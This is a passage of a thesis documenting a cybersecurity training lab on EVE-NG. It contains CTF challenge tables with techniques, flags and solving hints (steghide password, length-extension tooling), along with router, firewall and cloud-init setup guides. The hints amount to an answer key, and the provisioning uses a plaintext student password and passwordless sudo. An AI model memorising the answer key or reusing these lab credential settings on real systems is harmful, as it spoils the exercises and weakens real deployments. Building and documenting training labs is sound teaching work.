  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
ID
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Technique
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
B1 & \path{B1_oficina_novacorp.png} & EXIF \texttt{Artist} field & \texttt{H4U} \\
B2 & \path{B2_network_diagram.png} & Data after PNG IEND chunk & \texttt{H4U} \\
B3 & \path{B3_documento_escaneado.png} & LSB red channel & \texttt{H4U} \\
B4 & \path{B4_novacorp_logo.png} & LSB alpha channel (RGBA) & \texttt{H4U} \\
B5 * & \path{B5_camara_seguridad.jpg} & Steghide JPEG (pass: \texttt{novacorp}) & \texttt{H4U} \\
\end{longtable}}

Dependencies: \texttt{exiftool}, \texttt{steghide}, \texttt{python3-pil}

\begin{lstlisting}
`steghide extract -sf B5_camara_seguridad.jpg -p novacorp` writes the flag to `b5flag.txt` (name embedded in the JPEG).
\end{lstlisting}

\subsubsection{\texorpdfstring{ServerC --- Advanced Mix ({\ttfamily /home/devops/retos/})}{ServerC --- Advanced Mix (/home/devops/retos/)}}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.08\linewidth}
  >{\raggedright\arraybackslash}p{0.44\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.09\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
ID
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
File(s)
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Technique
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
C1 & \path{C1_backup_tapes.jpg} & EXIF hint $\rightarrow$ steghide $\rightarrow$ ZIP & \texttt{H4U} \\
C2 & \path{C2_backup_log.b64} & Onion: b64(bz2(b64(gz(flag)))) & \texttt{H4U} \\
C3 & \path{C3_api_token.txt} + \path{C3_verificador.py} & SHA-1 length extension & \texttt{H4U} \\
C4 [trophy] & \path{C4_ecdsa_signatures.txt} + \path{C4_verificador.py} & ECDSA nonce reuse $\rightarrow$ secp256k1 key & \texttt{H4U} \\
\end{longtable}}

Dependencies: \texttt{piexif}, \texttt{pillow}, \texttt{steghide}, \texttt{hlextend} (from GitHub), Python stdlib (\texttt{hashlib}, \texttt{bz2}, \texttt{gzip})

\begin{lstlisting}
\textbf{C2:} `bzip2` binary not installed on ServerC. Use Python3 `import bz2`.
Skip comment lines (`#`) at top of file before base64-decoding:
```python
lines = [l for l in raw.splitlines() if not l.startswith('#')]
data = ''.join(lines)
```

\textbf{C3:} `hlextend v0.2` --- `sha.extend()` returns `bytes` (not a tuple).
Get MAC with `sha.hexdigest()` after the call. See `C3_pista.txt` on ServerC.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Complete Flag List}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
ID & Difficulty & Flag & Module \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
A1 & Easy & \texttt{H4U} & Cryptography \\
A2 & Easy--Medium & \texttt{H4U} & Cryptography \\
A3 & Medium & \texttt{H4U} & Cryptography \\
A4 & Medium & \texttt{H4U} & Cryptography \\
A5 & Medium--Hard & \texttt{H4U} & Cryptography \\
B1 & Easy & \texttt{H4U} & Steganography \\
B2 & Easy--Medium & \texttt{H4U} & Steganography \\
B3 & Medium & \texttt{H4U} & Steganography \\
B4 & Medium & \texttt{H4U} & Steganography \\
B5 & Medium & \texttt{H4U} & Steganography \\
C1 & Hard & \texttt{H4U} & Advanced Mix \\
C2 & Hard & \texttt{H4U} & Advanced Mix \\
C3 & Hard & \texttt{H4U} & Advanced Mix \\
C4 & Hard & \texttt{H4U} & Advanced Mix \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab Startup Checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Start nodes in order: pfSense $\rightarrow$ VyOS $\rightarrow$ ServerA $\rightarrow$ ServerB $\rightarrow$ ServerC $\rightarrow$ Defender
\item
  Verify VyOS routing: \texttt{show\ ip\ route} (expect 10.10.1--4.0/24 connected)
\item
  Ensure the EVE-NG host bridge for Zone-C is active (persistent via udev \texttt{99-lab4-bridges.rules}; required for direct SSH to ServerC):

\begin{lstlisting}
ip addr show vnet0_5   # Should show 10.10.3.253/24
# If missing:
ip addr add 10.10.3.253/24 dev vnet0_5
\end{lstlisting}
\item
  Confirm SSH access to all server nodes
\item
  Verify challenge files on each server
\item
  Verify Python deps: \texttt{python3\ -c\ "from\ Crypto.Cipher\ import\ AES;\ import\ gmpy2;\ print(\textquotesingle{}OK\textquotesingle{})"}
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab Reset}

Revert each server to its EVE-NG snapshot, or re-deploy challenges from the repo:

\begin{lstlisting}
bash src/eve-ng/configs/nodes/Lab4/serverA/deploy.sh
bash src/eve-ng/configs/nodes/Lab4/serverB/deploy.sh
bash src/eve-ng/configs/nodes/Lab4/serverC/deploy.sh
\end{lstlisting}

Repository: \href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4}{\path{src/eve-ng/configs/nodes/Lab4/}}

\cleardoublepage
\chapter{Basic Configuration --- Selected ISOs}

\section{Selected ISOs}

This page documents the ISO images selected for the TFG lab environment and the rationale behind each choice.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{ISO overview}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Image
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Version
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Source
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role in labs
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\textbf{VyOS} & rolling & \href{https://vyos.io}{vyos.io} & Core router --- routing, NAT, firewall \\
\textbf{pfSense CE} & 2.7.x & \href{https://www.pfsense.org}{pfsense.org} & Perimeter firewall, DNS resolver \\
\textbf{Ubuntu Server} & 24.04 LTS & \href{https://ubuntu.com}{ubuntu.com} & Target server --- nginx, SSH \\
\textbf{Ubuntu Desktop} & 24.04 LTS & \href{https://ubuntu.com}{ubuntu.com} & Victim workstation \\
\textbf{Parrot OS} & rolling & \href{https://parrotsec.org}{parrotsec.org} & Attacker node \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Selection criteria}

All ISOs were chosen based on three criteria:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{Open source / freely redistributable} --- no licensing cost for students or the institution.
\item
  \textbf{EVE-NG compatibility} --- tested boot under QEMU with virtio drivers; added with the \texttt{linux-} prefix under \texttt{/opt/unetlab/addons/qemu/} as required by EVE-NG.
\item
  \textbf{Industry relevance} --- tools and OS families students will encounter in real engagements (pfSense/VyOS in SMB network gear, Ubuntu Server as the dominant Linux server target, Parrot/Kali as standard pentesting platforms).
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Import into EVE-NG}

\begin{lstlisting}
# 1. Upload ISO to EVE-NG host
scp <image>.iso root@<eveng-host>:/tmp/

# 2. Create the image directory (use linux- prefix)
ssh root@<eveng-host>
mkdir -p /opt/unetlab/addons/qemu/linux-<name>/
mv /tmp/<image>.iso /opt/unetlab/addons/qemu/linux-<name>/cdrom.iso

# 3. Create a virtual disk
qemu-img create -f qcow2 \
  /opt/unetlab/addons/qemu/linux-<name>/virtioa.qcow2 <size>G

# 4. Fix permissions
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\begin{lstlisting}
The `src/scripts/automation/Iso_uploader.py` script in the repository automates
all four steps above with a GUI file picker and automatic disk-size suggestions
based on the OS type.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Notes per image}

\begin{description}
\tightlist
\item[\textbf{VyOS (rolling)}]
Must be installed to disk from the live ISO before use in labs. Run \texttt{install\ image} from the VyOS shell after first boot.
\item[\textbf{pfSense CE}]
On first boot, assign interfaces manually via the console menu (option 1). \texttt{vtnet0} $\rightarrow$ LAN, \texttt{vtnet1} $\rightarrow$ WAN in EVE-NG.
\item[\textbf{Ubuntu Server / Desktop}]
Use the \texttt{linux-ubuntu-*} prefix. virtio disk and network drivers are supported out of the box.
\item[\textbf{Parrot OS}]
Use the Security edition. The Home edition does not include pentesting tools.
\end{description}

\cleardoublepage
\chapter{Basic Configuration --- VyOS Router}

\section{Mount disk}

\subsection{Overview}

This section documents the \textbf{complete process} to convert VyOS from \textbf{live-RAM} (volatile) to \textbf{persistent HDD} storage in EVE-NG and to create reusable templates for routers and switches.\\
After completion:

\begin{itemize}
\tightlist
\item
  Student view: \texttt{commit;\ save;\ reboot} survives (no config loss).
\item
  Professor view: 1x base template $\rightarrow$ unlimited cloneable nodes (router/switch) with independent disks.
\end{itemize}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 1 -- Persistence check (pre-install, inside VyOS)}

Run these commands on a fresh VyOS node (booting from ISO, before install):

\begin{lstlisting}
lsblk -f                 # Disks/partitions (look for /dev/vda ~8--10G without mount)
mount | grep config      # overlay/tmpfs = NOT persistent
df -h /config            # tmpfs/none = RAM
ls /config/              # config.boot present but volatile
cat /proc/cmdline | grep vyos-union  # Confirms live-boot

# Status: Live-boot (configs lost on reboot).
\end{lstlisting}

\subsection{Phase 2 -- Base template preparation (EVE-NG SSH as root)}

Objective: Have a VyOS directory with cdrom.iso + virtioa.qcow2 ready for installation.

\begin{lstlisting}
cd /opt/unetlab/addons/qemu/

ls | grep vyos
# Example: vyos-2026.02.13-0029-rolling-generic-amd64

cd vyos-2026.02.13-0029-rolling-generic-amd64

ls
# cdrom.iso

qemu-img create -f qcow2 virtioa.qcow2 8G
# or: /opt/qemu/bin/qemu-img create -f qcow2 virtioa.qcow2 8G

cd /opt/unetlab/addons/qemu/
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\subsection{Phase 3 -- Install VyOS to disk (node console)}

EVE GUI $\rightarrow$ New Lab $\rightarrow$ Add Node $\rightarrow$ Linux $\rightarrow$ vyos-2026.02.13-0029-rolling-generic-amd64.

Start the node $\rightarrow$ Console (Telnet) $\rightarrow$ login vyos / vyos.

\begin{lstlisting}
vyos@vyos:~$ install image
# Follow prompts:
# - Image name: vyos-lab-base (or Enter for default)
# - Password: vyos
# - Console: S (Serial)
# - Disk: /dev/vda (Enter)
# - Use all free space: Y
# - Boot config: 2 (clean default)
# - Install GRUB: y

vyos@vyos:~$ poweroff
# Result: virtioa.qcow2 now contains a full VyOS installation.
\end{lstlisting}

\subsection{Phase 4 -- Commit base template (EVE-NG SSH)}

\begin{lstlisting}
cd /opt/unetlab/addons/qemu/vyos-2026.02.13-0029-rolling-generic-amd64/

qemu-img info virtioa.qcow2

/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\subsection{Phase 5 -- Verify persistence (student view)}

\begin{lstlisting}
lsblk -f                 # vda3 ext4 mounted
mount | grep config      # /dev/vda3 (NO overlay!)
df -h /config            # ext4 persistent

configure
set interfaces ethernet eth0 address '10.0.0.1/24'
commit
save
exit
reboot

# After reboot:
show configuration commands | match '10.0.0.1'
# If present $\rightarrow$ config is persistent.
\end{lstlisting}

\subsection{Phase 6 -- Create router/switch templates (independent disks)}

\subsubsection{6.1 Create switch template: vyos-switch-lab1}

\begin{lstlisting}
cd /opt/unetlab/addons/qemu/
cp -r vyos-2026.02.13-0029-rolling-generic-amd64 vyos-switch-lab1
cd vyos-switch-lab1/
cp ../vyos-2026.02.13-0029-rolling-generic-amd64/virtioa.qcow2 .
rm cdrom.iso
cd /opt/unetlab/addons/qemu/
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\subsubsection{6.2 Create router template: vyos-router-lab1}

\begin{lstlisting}
cd /opt/unetlab/addons/qemu/
cp -r vyos-2026.02.13-0029-rolling-generic-amd64 vyos-router-lab1
cd vyos-router-lab1/
cp ../vyos-2026.02.13-0029-rolling-generic-amd64/virtioa.qcow2 .
rm cdrom.iso
cd /opt/unetlab/addons/qemu/
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\begin{lstlisting}
Always copy `virtioa.qcow2` into each template directory.
If multiple templates share the same base disk file, they may overwrite each other's
state, causing random config corruption between labs.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Router basic configuration}

\begin{lstlisting}
The instructions below are reference examples; each lab may use different addressing and services.
\end{lstlisting}

\subsubsection{Interface addressing}

\begin{lstlisting}
configure

# WAN interface (toward upstream firewall)
set interfaces ethernet eth0 address '<WAN_IP>/30'
set interfaces ethernet eth0 description 'OUTSIDE'

# LAN interface -- User segment
set interfaces ethernet eth6 address '<USER_GW>/24'
set interfaces ethernet eth6 description 'Users-LAN'

# LAN interface -- Server segment
set interfaces ethernet eth7 address '<SRV_GW>/24'
set interfaces ethernet eth7 description 'Server-LAN'

# Default route toward firewall/gateway
set protocols static route 0.0.0.0/0 next-hop '<WAN_GATEWAY>'

set system host-name 'Router'
commit
save
exit
\end{lstlisting}

\subsubsection{NAT masquerade (outbound)}

\begin{lstlisting}
Recent rolling builds require `outbound-interface name 'ethX'` instead of
`outbound-interface 'ethX'`.
\end{lstlisting}

\begin{lstlisting}
configure

set nat source rule 100 outbound-interface name 'eth0'
set nat source rule 100 source address '<USER_NET>/24'
set nat source rule 100 translation address 'masquerade'

set nat source rule 300 outbound-interface name 'eth0'
set nat source rule 300 source address '<SRV_NET>/24'
set nat source rule 300 translation address 'masquerade'

commit
save
exit
\end{lstlisting}

\subsubsection{Port forwarding -- DNAT (expose a service inbound)}

\begin{lstlisting}
configure

set nat destination rule 10 description 'HTTP to Server'
set nat destination rule 10 inbound-interface name 'eth0'
set nat destination rule 10 protocol 'tcp'
set nat destination rule 10 destination port '80'
set nat destination rule 10 translation address '<SERVER_IP>'
set nat destination rule 10 translation port '80'

set nat destination rule 11 description 'HTTPS to Server'
set nat destination rule 11 inbound-interface name 'eth0'
set nat destination rule 11 protocol 'tcp'
set nat destination rule 11 destination port '443'
set nat destination rule 11 translation address '<SERVER_IP>'
set nat destination rule 11 translation port '443'

# Allow forwarded traffic through the firewall policy
set firewall ipv4 forward filter rule 10 action 'accept'
set firewall ipv4 forward filter rule 10 destination address '<SERVER_IP>'
set firewall ipv4 forward filter rule 10 destination port '80'
set firewall ipv4 forward filter rule 10 protocol 'tcp'

set firewall ipv4 forward filter rule 11 action 'accept'
set firewall ipv4 forward filter rule 11 destination address '<SERVER_IP>'
set firewall ipv4 forward filter rule 11 destination port '443'
set firewall ipv4 forward filter rule 11 protocol 'tcp'

commit
save
exit
\end{lstlisting}

\subsubsection{Enable SSH management}

\begin{lstlisting}
configure
set service ssh
commit
save
exit
\end{lstlisting}

\subsubsection{Verification commands}

\begin{lstlisting}
show interfaces
show ip route
show arp
show nat source rules
show nat destination rules
show firewall
ping <IP> count 3
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Switch mode basic configuration}

\begin{lstlisting}
This example shows VyOS acting as a managed L2 switch: multiple access ports bridged
together, no routing. Useful when routing is handled by another node.
\end{lstlisting}

\begin{lstlisting}
configure

set interfaces bridge br0
set interfaces ethernet eth1 bridge-group bridge br0
set interfaces ethernet eth2 bridge-group bridge br0
set interfaces ethernet eth3 bridge-group bridge br0

# Optional: management IP on the bridge
set interfaces bridge br0 address '192.168.100.2/24'

commit
save
exit
\end{lstlisting}

\cleardoublepage
\chapter{Basic Configuration --- pfSense Firewall}

\section{Firewall -- pfSense CE 2.6 Setup}

The firewall configuration in this project was implemented by following the step-by-step procedure shown in the video below, adapted to the EVE-NG lab environment.

\subsection{Reference Video}

\begin{itemize}
\tightlist
\item
  \url{https://youtu.be/sX22a_v2svQ?si=IzMju0KYcMQSE4sZ}
\end{itemize}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 1 -- Image preparation (EVE-NG SSH as root)}

pfSense CE 2.6 requires a disk image before the node can be started. Unlike VyOS, pfSense installs itself to disk during the first-boot wizard --- no manual \texttt{install\ image} step needed.

\begin{lstlisting}
cd /opt/unetlab/addons/qemu/pfsense-ce-2.6.0-release-amd64/

# List contents -- you should see the ISO
ls
# cdrom.iso

# Create the target disk (8G is enough for CE 2.6)
qemu-img create -f qcow2 virtioa.qcow2 8G

# Fix permissions
cd /opt/unetlab/addons/qemu/
/opt/unetlab/wrappers/unl_wrapper -a fixpermissions
\end{lstlisting}

\begin{lstlisting}
The disk preparation is identical to the VyOS flow.
See [Router (VyOS)](Router.md) for reference.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 2 -- First boot and setup wizard (VNC console)}

Start the node from the EVE-NG web UI and open the console (VNC).

pfSense will boot from the ISO and launch the installer automatically.

\subsubsection{2.1 Install to disk}

When prompted, accept the default options:

\begin{itemize}
\tightlist
\item
  \textbf{Install pfSense} $\rightarrow$ Continue
\item
  \textbf{Auto (ZFS)} or \textbf{Auto (UFS)} --- UFS is simpler for a lab
\item
  Select disk: \texttt{vtbd0} (the \texttt{virtioa.qcow2} disk)
\item
  Confirm and proceed --- pfSense will copy files and reboot
\end{itemize}

After reboot the node boots from disk. The ISO is no longer needed but can stay.

\subsubsection{2.2 Interface assignment}

On first boot, pfSense asks which physical interfaces to assign as WAN and LAN.

pfSense sees interfaces in the order EVE-NG/QEMU presents them:

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\textbf{pfSense NIC} & \textbf{EVE-NG port} & \textbf{Connected to} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{vtnet0} (em0) & e0 & LAN network ($\rightarrow$ Router) \\
\texttt{vtnet1} (em1) & e1 & WAN network (pnet / internet) \\
\end{longtable}}

Always verify the assignment matches the lab cabling before continuing.

At the console menu:

\begin{lstlisting}
Should VLANs be set up now? $\rightarrow$ n
Enter the WAN interface name: vtnet1
Enter the LAN interface name: vtnet0
Do you want to proceed?      $\rightarrow$ y
\end{lstlisting}

pfSense will assign:

\begin{itemize}
\tightlist
\item
  \textbf{WAN} (\texttt{vtnet1}): DHCP by default --- gets IP from the upstream network
\item
  \textbf{LAN} (\texttt{vtnet0}): \texttt{192.168.1.1/24} by default --- \textbf{change this to match your lab}
\end{itemize}

\subsubsection{2.3 Set LAN IP from console}

From the pfSense console menu, select option \texttt{2)\ Set\ interface(s)\ IP\ address}:

\begin{lstlisting}
Select interface to configure: 2 (LAN)
Enter the new LAN IPv4 address:  172.16.x.x
Enter the new LAN IPv4 subnet:   30
For a WAN, enter the upstream gateway: (blank)
Do you want to enable DHCP on LAN? n
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 3 -- Web GUI access}

pfSense web GUI is only reachable from the \textbf{LAN interface}.

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
URL & \texttt{https://172.16.x.x} \\
Default user & \texttt{admin} \\
Default password & \texttt{pfsense} \\
\end{longtable}}

\begin{lstlisting}
The web GUI and SSH are blocked on the WAN interface by default.
Connect from a host that has L2 reachability to the LAN segment
(e.g. via the Router or a management host on the same bridge).
\end{lstlisting}

Complete the setup wizard on first login:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Set hostname and DNS
\item
  Set timezone
\item
  Confirm WAN settings
\item
  Confirm LAN IP
\item
  Change admin password
\item
  Reload --- pfSense is ready
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 4 -- Enable SSH management}

Go to \textbf{System $\rightarrow$ Advanced $\rightarrow$ Admin Access}:

\begin{itemize}
\tightlist
\item
  Enable \textbf{Secure Shell}
\item
  Set \textbf{SSHd Key Only} to \emph{Password or Public Key} for lab convenience
\item
  Click \textbf{Save}
\end{itemize}

SSH is then available from the LAN segment:

\begin{lstlisting}
ssh admin@172.16.x.x
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Phase 5 -- Persistence check}

pfSense writes its config to \texttt{/cf/conf/config.xml} on disk. After any change via web GUI or console, it saves automatically.

To verify the disk is being used:

\begin{lstlisting}
# From pfSense console $\rightarrow$ option 8 (Shell)
df -h
# /dev/vtbd0p3 should be mounted at /
\end{lstlisting}

\begin{quote}
Use \textbf{Halt System} from the pfSense menu or \texttt{shutdown -h now} from the shell. A hard stop from EVE-NG GUI may corrupt the ZFS/UFS filesystem.
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Key notes from lab experience}

\begin{itemize}
\tightlist
\item
  pfSense console is \textbf{VNC only} in EVE-NG (no serial/telnet access from host).
\item
  SSH and web GUI are \textbf{disabled on WAN} by default --- always connect via LAN.
\item
  The tap interface connecting pfSense WAN to the \texttt{pnet} bridge may need to be re-added manually after each EVE-NG host reboot (see \href{../../labs/lab1/firewall.md}{LAB1 Firewall}).
\end{itemize}

\cleardoublepage
\chapter{Cloud-Init Lab Provisioning}

\section{Cloud-Init Lab Provisioning}

Automated deployment of per-student EVE-NG instances using Proxmox cloud-init.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Overview}

Each student in the course works in an isolated, identical EVE-NG environment. Rather than manually cloning and reconfiguring VMs, the lab uses a \textbf{cloud-init provisioning pipeline} on Proxmox that deploys a ready-to-use EVE-NG instance from a sealed template in under 40 seconds.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Architecture}

\begin{lstlisting}
Proxmox Host (192.168.0.200)
|---- VM 113  (sealed EVE-NG template, always stopped)
|   |---- /etc/cloud/ds-identify.cfg       $\leftarrow$ force cloud-init enabled
|   |---- /etc/cloud/cloud.cfg.d/
|   |   |---- 99_proxmox.cfg               $\leftarrow$ NoCloud datasource, cidata label
|   |   \---- 99_disable_network.cfg       $\leftarrow$ don't touch pnet0 bridges
|   \---- /etc/network/interfaces          $\leftarrow$ pnet0 static IP (template)
|
|---- /var/lib/vz/snippets/
|   |---- userdata_alumno1.yaml            $\leftarrow$ student 1 config (IP .210)
|   |---- userdata_alumno2.yaml            $\leftarrow$ student 2 config (IP .211)
|   \---- alumnoN_key / alumnoN_key.pub    $\leftarrow$ per-student SSH keys
|
\---- VM 1XX  (linked clone, running)
    \---- cloud-init ISO (cidata) mounted at /dev/sr0
        |---- user-data   $\leftarrow$ from snippet YAML
        \---- meta-data   $\leftarrow$ instance-id, hostname
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Template Configuration}

Three files must be present on the template before sealing:

\subsubsection{ds-identify.cfg}

\begin{lstlisting}
policy: enabled,found=all,maybe=all,notfound=enabled
\end{lstlisting}

Prevents cloud-init from self-disabling when no datasource is found on the first boot second.

\subsubsection{99\_proxmox.cfg}

\begin{lstlisting}
datasource_list: [NoCloud, ConfigDrive, None]
datasource:
  NoCloud:
    fs_label: cidata
\end{lstlisting}

\subsubsection{99\_disable\_network.cfg}

\begin{lstlisting}
network:
  config: disabled
\end{lstlisting}

\begin{lstlisting}
EVE-NG manages its own `pnet0--pnet9` bridge stack. If cloud-init
reconfigures `eth0`, the bridges are destroyed on every boot.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Student Snippet}

\begin{lstlisting}
#cloud-config
hostname: eve-ng-alumno2
manage_etc_hosts: true

users:
  - name: alumno2
    shell: /bin/bash
    sudo: ALL=(ALL) NOPASSWD:ALL
    ssh_authorized_keys:
      - ssh-ed25519 AAAA...key... alumno2@eveng-lab

chpasswd:
  list: |
    alumno2:Lab2024!
  expire: false

runcmd:
  - /bin/bash -c 'ip addr flush dev pnet0;
    ip addr add 192.168.0.211/24 dev pnet0;
    ip route add default via 192.168.0.1 dev pnet0;
    sed -i "s/address 192.168.0.[0-9]*/address 192.168.0.211/"
    /etc/network/interfaces'

package_upgrade: false
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Provisioning Workflow}

\begin{lstlisting}
# 1. Linked clone (no full disk copy --- CoW delta only)
qm clone 113 <VM_ID> --name eve-ng-alumnoN --full 0

# 2. Assign snippet and IP
qm set <VM_ID> --cicustom 'user=local:snippets/userdata_alumnoN.yaml'
qm set <VM_ID> --ipconfig0 'ip=192.168.0.2XX/24,gw=192.168.0.1'
qm cloudinit update <VM_ID>

# 3. Start
qm start <VM_ID>

# 4. Connect after ~40s
ssh alumnoN@192.168.0.2XX -i /path/to/alumnoN_key
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Verification Checklist}

28/28 checks passed on the reference deployment (VM 114, 2026-05-17):

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Phase & Check & Result \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Template & ds-identify.cfg policy correct & \checkmark{} \\
Template & NoCloud datasource configured & \checkmark{} \\
Template & Network config disabled & \checkmark{} \\
Template & instances/ directory empty & \checkmark{} \\
Clone & VM created from template & \checkmark{} \\
Clone & cicustom snippet assigned & \checkmark{} \\
Clone & ISO contains correct YAML & \checkmark{} \\
Runtime & VM responds to ping in \textless{} 40s & \checkmark{} (35s) \\
Runtime & hostname = eve-ng-alumno2 & \checkmark{} \\
Runtime & pnet0 IP = 192.168.0.211/24 & \checkmark{} \\
Runtime & /etc/network/interfaces updated & \checkmark{} \\
Runtime & User alumno2 created & \checkmark{} \\
Runtime & authorized\_keys correct & \checkmark{} \\
Runtime & apache2 running & \checkmark{} \\
Runtime & cloud-init status = done (0 errors) & \checkmark{} \\
Runtime & EVE-NG web UI returns HTTP 200 & \checkmark{} \\
Runtime & SSH with new key works & \checkmark{} \\
Runtime & sudo NOPASSWD works & \checkmark{} \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Known Issues}

\subsubsection{LVM Filter on ZFS Zvol}

Proxmox's \texttt{lvm.conf} excludes \texttt{/dev/zd.*} by default. To inspect the template disk without modifying the global filter:

\begin{lstlisting}
vgchange --select 'uuid=<UUID>' -ay
\end{lstlisting}

\subsubsection{IP Not Persisting After Reboot}

The \texttt{runcmd} block must include a \texttt{sed} command updating \texttt{/etc/network/interfaces}. Without it, the VM reverts to the template IP on the second boot.

\cleardoublepage
\chapter{LAB1 --- Reconnaissance: PEBCAK Corp}

\section{LAB1 --- Reconnaissance · PEBCAK Corp}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.72\linewidth}@{}}
\toprule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\textbf{Difficulty} & Easy \\
\textbf{Category} & Reconnaissance · OSINT · SSH \\
\textbf{Flags} & 1 \\
\textbf{Est.\ time} & 45--90 min \\
\textbf{Key skills} & HTTP source inspection, DNS resolution, SSH, firewall pivoting \\
\textbf{Nodes} & pfSense · VyOS · Ubuntu Server · Ubuntu Desktop · Parrot OS \\
\end{longtable}}

\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab1}{Lab folder on GitHub} \href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB1-Reconnaissance-PEBCAK.unl}{Download topology (.unl)} \href{../../assets/exercises/lab1-exercise.pdf}{Exercise sheet} \href{../../assets/exercises/lab1-solution.pdf}{Solution guide}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Scenario}

\textbf{PEBCAK Corp} has a small internal web server exposed to the homelab network. The student takes the role of an external attacker with no prior credentials. The goal is to enumerate the target, find credentials hidden in the web source, access the server via SSH through the perimeter firewall, and retrieve the flag.

